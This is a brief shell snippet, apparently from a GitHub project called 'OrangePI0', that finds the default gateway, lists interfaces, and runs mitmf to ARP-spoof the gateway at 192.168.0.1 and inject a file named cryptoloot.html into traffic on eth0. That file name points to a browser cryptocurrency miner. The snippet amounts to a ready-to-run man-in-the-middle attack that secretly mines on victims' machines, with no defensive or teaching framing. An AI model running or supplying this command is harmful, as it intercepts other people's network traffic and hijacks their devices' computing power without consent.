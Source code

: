 # OrangePI0
ip route | grep default

ifconfig

mitmf --inject --html-file /root/OrangePI0/cryptoloot.html --spoof --arp --gateway 192.168.0.1 -i eth0
